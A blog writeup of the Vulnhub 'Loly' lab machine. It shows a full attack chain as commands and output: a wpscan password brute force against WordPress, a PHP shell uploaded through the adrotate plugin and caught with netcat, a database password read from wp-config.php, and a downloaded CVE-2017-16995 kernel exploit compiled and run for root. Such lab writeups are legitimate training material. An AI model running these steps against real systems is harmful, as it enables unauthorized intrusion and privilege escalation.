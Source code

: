 ```yaml
---
title: Vulnhub - Loly
description: My writeup on Loly box.
categories:
 - vulnhub
tags: vulnhub wordpress gobuster wpscan
---
```


![](https://mir-s3-cdn-cf.behance.net/project_modules/max_1200/ad961968970591.5b734bd15bb90.png)

You can find the machine there > [Loly](https://www.vulnhub.com/entry/loly-1,538/){:target="_blank"}

## Summary

This machine is an easy one, starting off we can find a wordpress installation and we gain access to it by running a brute force attack on the user. Shell uploading was a bit tricky, because common ways were blocked. After privilege escalation to first user was pretty easy we just have to look at wp-config file a really common method & the root one is based :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.15
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 22:22 EEST
Nmap scan report for loly.lc (192.168.1.15)
Host is up (0.0013s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:C1:62:D5 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.26 seconds
$ nmap -p 80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 22:23 EEST
Nmap scan report for loly.lc (192.168.1.15)
Host is up (0.00038s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
```

Visiting the web page, is just the default nginx page. No `/robots.txt` and such stuff so let's move on and run `gobuster`.

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
/wordpress (Status: 301)
```

`/wordpress` isn't loading properly, checking the html code we can see a `dns-prefetch` and a domain name that's probably a virtual host let's add it to `/etc/hosts`.

```html
<link rel='dns-prefetch' href='//loly.lc'/>
```

```
$ nano /etc/hosts
$ cat /etc/hosts
..data..
192.168.1.15    loly.lc
```

Now we can see the wordpress site, let's run a `wpscan` on it to detect plugins/users.

```
$ wpscan --no-banner --url http://loly.lc/wordpress/ -e ap,u

..data..

[i] Plugin(s) Identified:

[+] adrotate
 | Location: http://loly.lc/wordpress/wp-content/plugins/adrotate/
 | Last Updated: 2020-09-08T17:49:00.000Z
 | [!] The version is out of date, the latest version is 5.8.8
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.8.6.2 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/plugins/adrotate/readme.txt

[i] User(s) Identified:

[+] loly
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
 ```

Interesting, without wasting more time let's run a brute force attack on loly user.

```
$ wpscan --no-banner --url http://loly.lc/wordpress/ -U loly -P /usr/share/wordlists/rockyou.txt 

..data..

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - loly / fernando                                                                                                                                                             
Trying loly / corazon Time: 00:00:04 <==============================================================================================================> (175 / 175) 100.00% Time: 00:00:04

[!] Valid Combinations Found:
 | Username: loly, Password: fernando
```

## Shell as www-data

Perfect now we can login in, admin panel is under `/wp-admin`. Here i got stuck for couple of minutes, tried ton of stuff but no luck spawning a shell. Anyway then i remembered the plugin `adrotate` i enumerated a bit and i found a way to upload a shell & execute it! Follow my steps:

1) Zip your shell!

```
$ zip shell.zip shell.php 
  adding: shell.php (deflated 59%)
```

2) Upload it

![](https://i.imgur.com/A6d1HeF.png)

![](https://i.imgur.com/QS3w5We.png)

3) Execute it

Enumerating the settings of the plugin i found out the where it saves the files:

![](https://i.imgur.com/NFf6z9B.png)

```
$ curl http://loly.lc/wordpress/wp-content/banners/shell.php
```

```
$ nc -lvp 6666
listening on [any] 6666 ...
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as loly

A common method is makers to "hide" the user password under `wp-config.php` file, so i always check that first and 95% it works! :grin:

```
www-data@ubuntu:~/html/wordpress$ cat wp-config.php | grep "DB_PASSWORD"
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );
www-data@ubuntu:~/html/wordpress$ su - loly
Password: lolyisabeautifulgirl

loly@ubuntu:~$ whoami;id
loly
uid=1000(loly) gid=1000(loly) groups=1000(loly),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

## Shell as root

I did lot of enumeration but nothing, so my last hope is to be something like kernel exploit. I always love to run [linux exploit suggester](https://github.com/mzet-/linux-exploit-suggester){:target="_blank"} to speed up the process. Always check for highly probable exploits first.

```
loly@ubuntu:/tmp$ wget -q https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
loly@ubuntu:/tmp$ bash linux-exploit-suggester.sh

..data..

Possible Exploits:

[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Exposure: highly probable
   Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,ubuntu=14.04{kernel:4.4.0-89-generic},[ ubuntu=(16.04|17.04) ]{kernel:4.(8|10).0-(19|28|45)-generic}
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1
```

This seems perfect, let's download and test it out.

```
loly@ubuntu:/tmp$ wget -q https://www.exploit-db.com/download/45010 -O 45010.c
loly@ubuntu:/tmp$ /usr/bin/gcc 45010.c -o r00tplz
loly@ubuntu:/tmp$ chmod +x r00tplz
loly@ubuntu:/tmp$ ./r00tplz
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88000008c900
[*] Leaking sock struct from ffff88003990d640
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880032acc480
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff880032acc480
[*] credentials patched, launching shell...
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare),1000(loly)
```

Let's read the flag.

```
# cat root.txt
  ____               ____ ____  ____  
 / ___| _   _ _ __  / ___/ ___||  _ \ 
 \___ \| | | | '_ \| |   \___ \| |_) |
  ___) | |_| | | | | |___ ___) |  _ < 
 |____/ \__,_|_| |_|\____|____/|_| \_\
                                      
Congratulations. I'm BigCityBoy
```

Was fun, enjoyed it a lot! :smile:
